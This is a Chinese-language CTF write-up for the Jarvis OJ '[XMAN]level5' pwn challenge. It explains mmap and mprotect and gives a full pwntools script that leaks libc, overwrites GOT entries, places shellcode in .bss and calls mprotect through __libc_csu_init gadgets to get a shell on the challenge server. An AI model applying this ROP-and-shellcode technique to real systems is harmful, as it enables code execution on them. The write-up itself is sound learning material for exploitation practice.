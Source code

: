# write up 0718

## [XMAN]level5

从上周五开始看的一道题，很抱歉鸽了几天，我实在是太菜了

### 分析：

这道题本来难度并不大，文件与level3_x64相同，但是这题的要求是假设``system``函数和``execve``函数被禁用，用``mmap``()和``mprotect()``函数完成

### mmap

```c
void *mmap( void *start , size_t length , int prot , int flags , int fd , off_t offsize)
```

参数start：

- 指向欲映像的内存起始地址，通常设为NULL，代表让系统自动标明地址，映像成功后返回该地址。

参数length：

- 代表将文件中多大的部分映像到内存。

参数prot：映像区域的保护方式。可以为以下几种方式的组合：

- PROT_EXEC映像区域可被执行
- PROT_READ映像区域可被读取
- PROT_WRITE映像区域可被写入
- PROT_NONE映像区域不能存取

参数flags：影响映像区域的各种特性。在调用mmap（）时必须要指定MAP_SHARED或MAP_PRIVATE。

- MAP_FIXED：如果参数start所指的地址无法成功建立映像时，则放弃映像，不对地址做修正。通常不鼓励用此旗标。
- MAP_SHARED：对映像区域的写入数据会复制回文件内，而且允许其他映像该文件的进程共享，原来的文件会改变。
- MAP_PRIVATE：对映像区域的写入操作会产生一个映像文件的复制，即私人的“写入时复制”（copy on write）对此区域作的任何修改都不会写回原来的文件内容。当共享的对象的虚拟存储区域为私有对象时，修改只会被本进程中改变。*（学的操作系统终于派上用场了）*
- MAP_ANONYMOUS：建立匿名映像。此时会忽略参数fd，不涉及文件，而且映像区域无法和其他进程共享。
- MAP_DENYWRITE：只允许对映像区域的写入操作，其他对文件直接写入的操作将会被拒绝。
- MAP_LOCKED：将映像区域锁定住，这表示该区域不会被置换（swap）。
  参数fd：
- 要映像到内存中的文件描述符。如果使用匿名内存映像时，即flags中设置了MAP_ANONYMOUS，fd设为-1。有些系统不支持匿名内存映像，则可以使用fopen打开/dev/zero文件，然后对该文件进行映像，可以同样达到匿名内存映像的效果。
  参数offset：
- 文件映像的偏移量，通常设置为0，代表从文件最前方开始对应，offset必须是分页大小的整数倍。

返回值：

- 若映像成功则返回映像区的内存起始地址，否则返回MAP_FAILED（－1），错误原因存于errno中。

### mprotect

```c
int mprotect(const void *start, size_t len, int prot);
```

在Linux中，``mprotect()``函数可以用来修改一段指定内存区域的保护属性。
``mprotect()``函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值,就是常见的0x111对应执行，写，读权限

``mmap()``的参数过多，跟着网上的wp用``mprotect()``完成了这一题

``mprotect()``有三个参数，这里需要使用到``__libc_csu_init``结尾的``gadget``来进行传参

### 思路：

首先与level3_x64相同，通过泄露libc地址得到``mprotect()``的地址

接着将``mprotect()``和bss段写入got表中

然后把shellcode写入bss段

最后调用``mprotect()``函数，修改bss段的权限并返回到bss段运行shellcode

### 问题：

一开始准备使用got表中数值为0的地址，失败多次之后改用``__libc_start_main``的got表位

另外，不知道为什么要用pause()，好像是要维持线程

还有，这题的shellcode需要调整参数，一开始没有注意到一直出错

### exp:

```python
from pwn import *

context(log_level = 'debug',os = 'linux',arch = 'amd64')

#n = process('./level5')
n = remote('pwn2.jarvisoj.com', 9884)
#n = remote("localhost",12345)

elf = ELF('./level5')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc-2.19.so')

offset = 0x88

read_got = elf.got['read']
read_plt = elf.symbols['read']
write_plt = elf.symbols['write']
main_addr = elf.symbols['main']
bss_addr = elf.bss()
shellcode = asm(shellcraft.amd64.sh())

pop_rdi_ret_addr = 0x00000000004006b3
pop_rsi_pop_r15_ret_addr = 0x00000000004006b1

payload1 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(1) + p64(pop_rsi_pop_r15_ret_addr) +  p64(read_got) + 'deadbuff' + p64(write_plt) + p64(main_addr)

n.recvuntil("Input:\n")
n.send(payload1)
sleep(0.2)
pause()
read_addr = u64(n.recv(8))

libc.address = read_addr - libc.symbols['read']

mprotect_addr = libc.symbols['mprotect']
print 'mprotect_addr = ' + hex(mprotect_addr)

#write the mprotect to got table
libc_start_main_got = elf.got['__libc_start_main']
payload2 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(libc_start_main_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload2)
sleep(0.2)
n.send(p64(mprotect_addr))
sleep(0.2)
pause()

#write the shellcode to bss
payload3 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(bss_addr) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload3)
sleep(0.2)
n.send(shellcode)
sleep(0.2)
pause()

#write the bss to got table
gmon_start_got = elf.got['__gmon_start__']
payload4 = 'a' * offset + p64(pop_rdi_ret_addr) + p64(0) + p64(pop_rsi_pop_r15_ret_addr) + p64(gmon_start_got) + 'deadbuff' + p64(read_plt) + p64(main_addr)

n.send(payload4)
sleep(0.2)
n.send(p64(bss_addr))
sleep(0.2)
pause()

csu_start = 0x4006AA
csu_end = 0x400690

payload5 = 'a' * offset + p64(csu_start) + p64(0) + p64(1) + p64(libc_start_main_got) + p64(7) + p64(0x1000) + p64(0x600000) + p64(csu_end)
payload5 += 'deadbuff' + p64(0) + p64(1) + p64(gmon_start_got) + p64(0) +p64(0) + p64(0) + p64(csu_end)
n.send(payload5)
sleep(0.2)
pause()

n.interactive()
```

